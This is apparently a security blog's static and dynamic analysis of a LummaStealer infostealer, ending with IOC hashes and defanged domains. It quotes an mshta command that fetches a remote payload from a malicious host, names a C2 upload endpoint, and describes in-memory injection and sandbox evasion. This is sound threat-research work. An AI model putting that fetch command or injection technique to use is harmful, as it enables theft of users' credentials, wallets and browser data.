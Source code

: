 ```yaml
---
layout: post
title: LummaStealer Malware Static and Dynamic Analysis
date: 2025-02-17
image: 13/00-main.png
tags: malware ReverseEngineering
---
```


## Analysis Summary
A .NET InfoStealer malware infecting windows devices through malicious advertising that could be navigated by the user that led him to download malicious executable file to drop and execute stealer malware using multi stages of malicious powershell scripts.

## Static Analysis
A command has been executed on the target that dropped another WSH script.
```powershell
"mshta.exe" hxxps[:]//macphotoeditor[.]shop/singl6[.]mp4
```

![1.png](/img/13/1.png)

The obfuscated WSH script executed and dropped another stage of obfuscated powershell script.
![2.png](/img/13/2.png)

The third stage of powershell script is executed with `-w 1` argument to minimize and hide powershell window prompt from the user and executes obfuscated function.
![3.png](/img/13/3.png)

After de-obfuscating the third stage of powershell malware script using "PSDecode" module [https://github.com/R3MRUM/PSDecode/blob/master/PSDecode.psm1](https://github.com/R3MRUM/PSDecode/blob/master/PSDecode.psm1) the script is now more readable and using sandbox evasion techniques by checking if analysis tools processes is running and checking most common usernames used in known sandboxes.

After that, The script will drop and execute fourth stage of malware
```
hxxps[:]//journal[.]liveview[.]pw/singl6[.]vsdx
```
![4.png](/img/13/4.png)

The fourth stage of malware "**singl6.vsdx**" is another highly obfuscated powershell script with **10.18MB** in size file.
![5.png](/img/13/5.png)

Deobfuscating this type of huge powershell script is a bit tricky so we will do it in the following steps:
- STEP 1: Will take a copy of the file with *.ps1* extension for text highlighting.
- STEP 2: At the end of the script will see a function that decrypts and executes the obfuscated data.
![6.png](/img/13/6.png)

There's a function called `fdsjnh()` that tries to decrypt a specific data stored in variable above using XOR key and then decodes it using `FromBase64String()` functionality to base64 decode it.
Then, It takes the decrypted data and tries to execute it in memory. So if we tried to print the decrypted data when it returns from the function without executing the actual decrypted code we will be able to retrieve the plain text readable code after it gets decrypted.
![7.png](/img/13/7.png)

Now it's more obvious. It defines a variables that will be used to allocate and **RWX (Read_Write_Executable)** memory page that will be used later to store another decrypted malicious code and injects it into the memory in order to executes it.
![8.png](/img/13/8.png)

As below, It's using multiple windows API calls from **kernel32.dll** for creating RWX memory section. `VirtualProtect(), GetCurrentProcess(), VirtualQuery(), ReadProcessMemory(), WriteProcessMemory()` etc.
![9.png](/img/13/9.png)

It will tries to loop through the allocated memory section in order to write the decrypted malware into it.
![10.png](/img/13/10.png)

The actual encrypted malware is stored in `$a` variable that will be load and executes later.
![11.png](/img/13/11.png)

After that it will loads the assembly of the decoded code and executes it.
![12.png](/img/13/12.png)

In order to retrieve the encoded file, Will take the encoded base64 string stored in the `$a` variable and write it to a file. As it appears in the below image, It has **MZ** magic bytes which is a portable executable file.
![13.png](/img/13/13.png)

Another .NET stage of the malware that's packed with **.NET Reactor and Cryptor** packers.
![14.png](/img/13/14.png)

Sample has been submitted to VirusTotal.
![15.png](/img/13/15.png)

## Dynamic Analysis
After doing static analysis against the decoded malware using sysinternal tools and network analysis, We will try now to see the behavior of this infostealer when it gets executed on the system.

It tries to access multiple softwares sensitive files like Telegram, FileZilla, AnyDesk, NordVPN, etc.
![15.png](/img/13/16.png)

Stealing emails senstive data (PMail, eM, Mailbird, Outlook, etc.)
![16.png](/img/13/17.png)

Stealing crypto wallets (Etherum, Exodus, Binance, Electrum).
![17.png](/img/13/18.png)

And of course browsers data (Chrome, Edge, Firefox, AVG, Tencent, 360Browser, CentBrowser, Chedot, etc.)
![18.png](/img/13/19.png)

After completing its process, It uploads the collected data to their C2 domain URL and then exists.
```
hxxps[:]//surmisehotte[.]click/api
```
![19.png](/img/13/20.png)

## Indicator of Compromise (IOCs)

| FileName    | SHA256 Hash                                                      |
| ----------- | ---------------------------------------------------------------- |
| 1.exe       | ca00dbff57cdc83f39a213ea96726063f18aa14f9a0ae2f52c2c6d54f23dcd00 |
| singl6.mp4  | d070fad55be0d3269dbebb1de70652d82d48f0ad849f960d27d3e71018eb208c |
| singl6.vsdx | 4dff60f8e1dd41b557f47204c6f1f6d75a77efbd0fba0a01484ec3f328211cb0 |
| stage3.ps1  | 30a491d49ee9675a5114803e67c801335b893a56e42f7066be6deffdd6928632 |
| stage5.ps1  | b20da13c9fdd9a5984210edefda303d0c4db5adbb38aee82a525dec42818da91 |

| Domains                 |
| ----------------------- |
| macphotoeditor[.]shop   |
| journal[.]liveview[.]pw |
| surmisehotte[.]click    |
